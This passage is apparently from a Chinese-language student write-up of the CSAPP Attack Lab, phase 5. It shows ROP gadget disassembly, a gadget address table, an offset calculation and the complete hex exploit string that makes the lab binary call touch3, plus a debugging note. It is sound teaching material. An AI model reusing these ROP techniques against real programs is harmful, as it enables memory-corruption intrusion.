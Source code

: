 ```asm
0000000000401a25 <addval_187>:
  401a25:	8d 87 89 ce 38 c0    	lea    -0x3fc73177(%rdi),%eax
  401a2b:	c3   
```

对应指令`movl %ecx, %esi`。这里`38 c0`为指令`cmpb %al`的字节码，计算得到`ADDR(gadget6) = 0x401a27`。

4. 对应的`ADDR(gadget7) = 0x4019d6`。
5. 由Phase 4可知对应的`ADDR(gadget8) = 0x4019c5`。

因此指令和数据的组织如下：

```asm
movq %rsp, %rax             --> gadget1   --> 0x401a06
<-- 存储的 %rsp 的地址
movq %rax, %rdi             --> gadget2   --> 0x4019c5
popq %rax                   --> gadget3   --> 0x4019ab
[bias]                                    --> 0x48
movl %eax, %edx             --> gadget4   --> 0x4019dd
movl %edx, %ecx             --> gadget5   --> 0x401a69 
movl %ecx, %esi             --> gadget6   --> 0x401a27
lea (%rdi, %rsi, 1), %rax   --> gadget7   --> 0x4019d6
movq %rax, %rdi             --> gadget8   --> 0x4019c5
call touch3                 --> touch3    --> 0x4018fa
<-- cookie字符串起始地址
[cookie]                                  --> 0x616637393962393935
```

每条指令都对应一个`gadget`地址，为8字节。由上表可知偏移量应该为`0x30`，因此`bias = 0x30 = 48`。

这样，就可以将数据组织为十六进制的形式进行exploit：

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
69 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
```

> **踩坑记录**
> 
> 第一次做的时候未经思考，把偏移地址写到`%rdi`，把栈顶指针写到`%rsi`，导致一直出现segmentation fault。经过思考后，发现`%rsp`的有效数据可能大于4字节（由于随机化和虚拟地址），而如果存储到`%rsi`则只能用`movl`指令传输4字节，会导致栈顶指针数据的高位4字节清零，从而由无效地址触发segmentation fault。后面调整了思路解决了这个问题。
> 
> 其实`lea`命令的格式本身已经给出了提示，将第一个寄存器的值作为基址，第二个寄存器的值作为偏移量。结合上述的两点分析得到结果。
